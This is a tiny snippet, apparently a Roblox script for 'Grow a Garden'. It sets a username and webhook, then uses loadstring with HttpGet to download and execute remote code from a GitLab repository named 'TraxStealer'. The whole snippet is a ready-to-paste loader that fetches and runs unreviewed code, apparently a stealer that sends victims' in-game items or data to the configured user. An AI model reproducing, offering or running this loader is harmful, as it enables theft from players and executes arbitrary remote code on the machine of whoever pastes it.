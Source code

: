 Username = 70corrervintecomer 
Webhook = chrome

loadstring(game:HttpGet("https://gitlab.com/traxmain1/TraxStealer/-/raw/main/grow-a-garden"))()
